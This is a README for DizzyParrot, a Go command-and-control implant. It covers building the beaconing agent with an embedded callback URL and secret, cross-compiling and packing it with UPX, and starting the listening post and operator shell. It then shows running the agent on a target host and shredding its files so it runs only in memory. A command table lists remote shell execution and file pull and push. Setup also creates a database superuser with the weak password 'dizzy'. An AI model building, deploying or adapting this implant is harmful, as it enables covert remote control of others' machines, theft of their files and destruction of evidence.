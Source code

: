 # DizzyParrot

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

![Shell](https://user-images.githubusercontent.com/10587919/78269929-34740c80-74d8-11ea-94cf-ecdc0d130dbe.png)

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```
#### Build with Makefile

Edit the Makefile to include the LP and agent specific information. This can be overridden from the command line as an alternative. Additional architectures can be added. To view a list of architectures supported natively by go, use the go tool command.

```
go tool dist list
```

Generic build instructions with make.
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git
cd DizzyParrot

# Install dependencies
make deps

# Build a server, lp, and shell
make all

# Make the server
make build_server

# Make a custom agent
make build_mips

# Make a custom agent and override Makefile enviornmental variables
make build_arm NAME=A10002

# Override options
make build_ppc NAME=A10002 URL=https://localhost:8443/portal/status SECRET=dizzyparrot CALLBACK=300 JITTER=60
```

#### Build manually. Clone the repo using git and go get dependencies.
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Make sure to set the common name as 'localhost'. If you don't, you may recieve a TLS Handshake error on the LP.

cd server; mkdir cert
openssl genrsa -out cert/server.key 4096
openssl req -new -x509 -sha256 -days 1825 -key cert/server.key -out 

# Start the LP
./server -c config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz server.crt; rm -f client
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt

# Drop old tables
DROP TABLE agents,results,tasks,tokens;

```
#### Basic Usage

```
agents               : List available agents.
agent <agent name>   : Tag into an agent for interaction. Tag without a name brings the user back to home and lists agents. 
task <command>       : Task the agent to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged               : Show jobs in the queue and are staged to be deployed to the agent.
deploy               : Move staged jobs into the deployed queue. Agent will pick these tasks up.
revoke               : Remove deployed jobs. 
revoke restage       : Removes deployed jobs and places in the staged queue to allow for additional commands to be added.
flush                : Flush the commands in the staged queue.
set callback <int>   : Task the agent to modify its callback. In seconds.
set jitter <int>     : Task the agent to offset the callback (+/-) by x seconds. In seconds.
kill                 : Kill the agent process.
job <job_id>         : Show the output from a job
jobs                 : List complete and deployed jobs.
pull <rfile>         : Pull a file from the target machine.
push <lfile> <rfile> : Push a local file to the target machine
forget <agent_name>  : Remove an agent from the database. 
dump agent           : Not yet implemented
dump job             : Not yet implemented
```

#### Todo
 
1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database. Based on bool value. Preserve pull path.

3. Add shell feature to dump agent results and commands to disk.

4. Add shell command to wipe database.

5. Add a scheduler option to run recurring commands at a given interval.
